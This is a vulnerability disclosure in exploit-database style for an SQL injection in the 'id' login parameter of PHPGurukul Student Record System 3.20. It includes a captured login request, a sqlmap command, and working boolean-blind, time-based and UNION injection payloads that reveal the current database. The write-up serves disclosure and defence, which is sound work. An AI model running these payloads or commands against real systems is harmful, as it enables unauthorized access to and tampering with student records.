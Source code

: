 # Student Record System - SQL Injection - 1
+ **Exploit Title:** Student Record System - SQL Injection - 1
+ **Date:** 2024-01-04
+ **Exploit Author:** Burak Sevben
+ **Vendor Homepage:** https://phpgurukul.com/student-record-system-php/
+ **Software Link:** https://phpgurukul.com/?sdm_process_download=1&download_id=7216
+ **Version:** 3.20
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** Reported, waiting for CVE number

## Description:
Student Record Managment System 3.20 allows SQL Injection via the 'id' parameter in "http://localhost/studentrecordms/login.php". Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit the latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to this address: "http://localhost/studentrecordms/login.php"
+ Try logging in with `test`:`test`
+ Capture the request via Burp Suite and send it to the Repeater.
+ Copy the request and paste it into an "r.txt" file.
+ Captured Burp request:
```
POST /studentrecordms/login.php HTTP/1.1
Host: localhost
Content-Length: 34
Cache-Control: max-age=0
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,/;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/studentrecordms/login.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: language=en; continueCode=5vLeVxlRzkNb47vKDPMo5Lq8wdzLtvf1Hem0jn6EZm2ygrX19BpaQWOJY3oM; welcomebanner_status=dismiss; cookieconsent_status=dismiss; PHPSESSID=16p8fmbt5nnt6j32qlumjroui0
Connection: close

id=test&password=test&submit=login
```

+ Use sqlmap to exploit. In sqlmap, use 'id' parameter to dump the database.
```
sqlmap -r r.txt -p id --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
---
Parameter: id (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: id=test' OR NOT 2939=2939-- diuV&password=test&submit=login

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=test' AND (SELECT 9361 FROM (SELECT(SLEEP(5)))XNFL)-- djJN&password=test&submit=login

    Type: UNION query
    Title: Generic UNION query (NULL) - 2 columns
    Payload: id=test' UNION ALL SELECT 90,CONCAT(0x71707a7071,0x746578536c7064575a674d62536d4b426b737074524d5a64787a674b5359624e757a6457556f4d42,0x71766b7a71)-- -&password=test&submit=login
---
[01:18:24] [INFO] the back-end DBMS is MySQL
[01:18:24] [WARNING] results seems to be upper-cased by force. sqlmap will automatically lower-case them
web application technology: PHP 8.2.12, Apache 2.4.58
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[01:18:24] [INFO] fetching current database
current database: 'studentrecorddb'
```
+ current database: `studentrecorddb`

![Ekran görüntüsü 2024-04-01 081908](https://github.com/BurakSevben/CVEs/assets/117217689/622ec511-c580-4312-ab4d-e15630ad85bd)
